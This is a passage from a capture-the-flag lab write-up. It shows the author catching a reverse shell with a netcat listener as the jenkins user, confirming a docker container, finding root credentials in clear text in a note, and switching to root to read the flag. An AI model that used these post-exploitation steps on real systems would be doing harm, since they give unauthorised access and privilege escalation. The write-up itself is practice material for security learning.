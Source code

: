 ```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.18.173 40802 received!
whoami
jenkins
```

We are now logged in with the **jenkins** user and we can further confirm we are in a docker container: docker creates a .dockerenv file at the top of the directory tree.

```bash
ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Aug  3  2020 /.dockerenv
```

By taking a look around in the usual folders (/tmp, /home, /opt,...) we find an interesting file.

```bash
cd /opt
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:[REDACTED]
```

These guys must really like to keep their passwords in clear text!  
Now that we have root's credentials, we can login and get the root flag.

```bash
aubreanna@internal:~$ su
Password:
root@internal:/home/aubreanna# cd /root
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
[REDACTED]
```

That's all for this room, see you in the next one.  
In the meanwhile, happy hacking!
